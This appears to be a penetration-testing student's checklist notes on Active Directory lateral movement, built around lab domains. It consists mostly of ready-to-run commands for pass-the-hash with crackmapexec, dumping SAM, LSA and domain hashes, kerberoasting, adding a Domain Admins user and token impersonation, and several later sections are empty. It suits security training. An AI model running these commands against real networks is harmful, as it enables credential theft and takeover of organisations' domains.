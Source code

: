 
>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```



- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```

```
secretsdump.py administrator@10.10.10.182 -hashes <full:hash>
```


- [ ] Dumping and Cracking Hashes


```
Wdigest is by default on Windows 2007 , 2008 , 2012.
```


```
llmr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts

Lateral, Lateral, lateral all the way through until we find the vertical movement.
It could be admin password in wdigest or it could be an admin account that logins into your Domain controller.
```


- [ ] Kerberoasting

```
GetUserSPNs.py MARVEL.local/<usernname>:<password> -dc-ip <ip_address> -request
```

```
If it's never a logon in an account that could be a Honeypot account
```


- [ ] Token Impersonation

Delegate Token are for login's & RDP
Incognito

```
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

MSF-Console
![[Pasted image 20241112174826.png]]


```
load incognito
```
![[Pasted image 20241112175259.png]]

```
list_token -u
list_token -g
```

```
impersonate_token marvel\\fcastle
```

```
shell 
rev2self
getuid
```


- [ ] LNK File Attacks



- [ ] GPP / cPassword Attacks



- [ ] Mimikatz



- [ ] Credential Dumping with Mimikatz



- [ ] Post-Compromise Attack Strategy